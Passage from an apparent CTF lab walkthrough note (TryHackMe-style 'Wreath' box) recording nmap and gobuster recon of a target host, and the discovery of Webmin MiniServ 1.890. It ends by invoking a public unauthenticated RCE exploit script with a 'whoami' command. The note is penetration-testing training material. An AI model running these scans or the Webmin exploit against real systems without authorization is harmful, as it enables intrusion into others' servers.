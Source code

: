 # Nmap
---
- `nmap -p- -A 10.200.81.200 -oN nmap/nmap_wreath_all -T4`

# Port 80/443
---
![[Pasted image 20250402154327.png]]
- Versions: 
	- `Apache httpd 2.4.37`
- Domain name:
	- `thomaswreath.thm`
	- Add this to `/etc/hosts`
- Footer:
	- Template by `ThemeHippo` => 2015
- Thomas's information:
	- ![[Pasted image 20250402155710.png]]
	
- **Gobuster Scan**:
---
- `gobuster dir -u https://thomaswreath.thm/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -n -x php,html,txt,zip -t 100 -k`
	- `-k` -> ignore certificate validation

# Port 10000 
---
```
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-server-header: MiniServ/1.890
```
- Tried common credentials, but we **got blocked due to many retries.**
- Found a **possible [RCE**](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE)
	- ![[Pasted image 20250402160708.png]]
	- `python3 webmin_exploit.py 10.200.81.200 10000 whoami`
	- ![[Pasted image 20250402160829.png]]
	- 